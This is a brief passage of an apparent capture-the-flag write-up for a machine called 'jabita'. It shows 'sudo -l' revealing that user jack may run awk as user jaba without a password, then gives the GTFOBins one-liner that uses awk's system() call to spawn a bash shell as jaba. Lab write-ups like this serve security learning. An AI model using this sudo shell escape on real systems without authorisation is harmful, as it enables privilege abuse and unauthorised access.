



5.1 See jack's sudoers
1. Let see jack's privileges.
jack@jabita:~$ sudo -l
Output:

This user can run “/user/bin/awk” as “jaba” user with no password.
2. Visit https://gtfobins.github.io/gtfobins/awk/.

3. Run the command.
$ sudo -u jaba awk 'BEGIN {system("/bin/bash")}'
Output:
